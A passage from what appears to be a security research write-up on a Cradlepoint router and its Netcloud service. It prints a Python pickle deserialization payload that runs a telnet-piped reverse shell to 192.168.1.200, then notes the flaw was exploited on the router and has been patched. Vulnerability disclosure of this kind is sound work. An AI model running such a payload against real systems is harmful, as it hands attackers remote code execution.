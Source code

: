 ```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('telnet 192.168.1.200 8080 | /bin/bash | telnet 192.168.1.200 8081')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(pickled)
```

We didn’t run the attack against Netcloud servers, but were able to exploit the issue on the router (see example PoC [here](https://raw.githubusercontent.com/veganmosfet/Rooting-the-Cradlepoint-IBR600/main/netcloud/scripts/mitmproxy_netcloud_rce.py)). This vulnerability has been patched.
